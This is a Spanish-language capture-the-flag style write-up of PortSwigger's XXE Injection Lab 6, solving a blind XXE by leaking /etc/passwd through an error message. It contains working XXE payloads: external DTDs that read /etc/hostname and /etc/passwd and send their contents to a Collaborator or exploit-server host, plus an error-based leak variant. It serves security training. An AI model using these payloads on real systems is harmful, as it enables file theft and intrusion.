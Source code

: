 ```yaml
---
title: XXE Injection Lab 6
date: 2024-11-27 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - XXE Injection
tags:
  - XXE Injection
  - Exploiting blind XXE to retrieve data via error messages
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Skills

- Exploiting blind XXE to retrieve data via error messages

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` tiene una `función` de `Check stock` que analiza entradas en `formato XML`, pero `no muestra` el `resultado`. Para resolver el laboratorio, hay que utilizar un `DTD externo` para `provocar` un `mensaje` de `error` que `muestre` el `contenido` del archivo `/etc/passwd`. El laboratorio incluye un enlace a un `servidor` de `exploits` en un dominio diferente donde podemos alojar un `DTD malicioso`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/XXE-Injection-Lab-6/image_1.png)

Si pulsamos en `View details` veremos la `descripción` del `artículo`

![](/assets/img/XXE-Injection-Lab-6/image_2.png)

Si pulsamos en `Check stock` y `capturamos` la `petición` con `Burpsuite` vemos que se está tramitando un `XML`

![](/assets/img/XXE-Injection-Lab-6/image_3.png)

`Enviamos` una `petición` con un `DTD (Document Type Definition)` y a `comprobar` si es `vulnerable` a `XXE` pero la `web` con `responde` con un `mensaje` de `Entities are not allowed for security reasons`

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY xxe "Doe"> ]>
	<stockCheck>
		<productId>
			&xxe;
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

Nos vamos a `Burpsuite Collaborator` y pulsamos en `Copy to clipboard`, este `dominio` obtenido lo vamos a usar para construir este `payload`, el `%` sirve para `llamar` a la `entidad` desde el `DTD` creado

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://lqfvrsm0rxqxty3gudtykjjoifo6cx0m.oastify.com"> %xxe; ]>
	<stockCheck>
		<productId>
			1
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

Nos vamos a `Burpsuite Collaborator` y observamos que hemos `obtenido respuesta`, lo cual quiere decir que ya tenemos un `XXE out-of-band interaction`

![](/assets/img/XXE-Injection-Lab-6/image_4.png)

Al `enviar` la `petición` obtenemos una `respuesta` que `refleja` un `error`

![](/assets/img/XXE-Injection-Lab-6/image_5.png)

Lo que podemos hacer ahora que hemos confirmado que podemos `cargar` un `recurso` del `servidor externo` es pulsar en `Go to exploit server`, introducir este `payload` en la parte de `Body` y pulsar sobre `Store` para almacenarlo. Esto `&#x25` es `%` pero en `hexadecimal`, se debe poner así y no en el formato normal para que funcione correctamente

```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://lqfvrsm0rxqxty3gudtykjjoifo6cx0m?content=%file;'>">
%eval;
%exfil;
```

Lo siguiente que debemos hacer es irnos a donde pone `Craft response`, copiar la url `https://exploit-0aa200cb045beea1d8e97fad01f20055.exploit-server.net/exploit` y `enviar` la `petición`

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "https://exploit-0ad700d403aa94da80ea66ed01e5007e.exploit-server.net/exploit"> %xxe; ]>
	<stockCheck>
		<productId>
			1
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

Ahora nos vamos a `Burpsuite Collaborator`, pulsamos en `Resquest to Collaborator` y vemos el `/etc/hostname`

![](/assets/img/XXE-Injection-Lab-6/image_6.png)

Sin embargo, no nos pide el `/etc/hostname`, lo que nos pide es el `/etc/passwd` y mediante el método anterior no podemos obtenerlo debido a que tiene más de una línea. Podríamos usar este `payload` pero `no funciona` el `wrapper` de `php` que `encodea` en `base64`

```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://lqfvrsm0rxqxty3gudtykjjoifo6cx0m.oastify.com?content=%file;'>">
%eval;
%exfil;
```

Debido a que cada vez que enviamos una petición `obtenemos` un `mensaje` de `error` podemos `exfiltrar data` mediante este `mensaje` de `error`. Lo primero es `craftearnos` un `entity` que `cargue` el `/etc/passwd` y luego otro `entity` que `cargue` un `archivo inexistente` provocando así un `error`

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///noExiste/%file;'>">
%eval;
%exfil;
```

`Enviamos` nuestra `petición` a nuestro `servidor` donde se encuentra el `exploit`

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "https://exploit-0ad700d403aa94da80ea66ed01e5007e.exploit-server.net/exploit"> %xxe; ]>
	<stockCheck>
		<productId>
			1
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

El `servidor` nos `muestra` en el `error` el `/etc/passwd`

![](/assets/img/XXE-Injection-Lab-6/image_7.png)
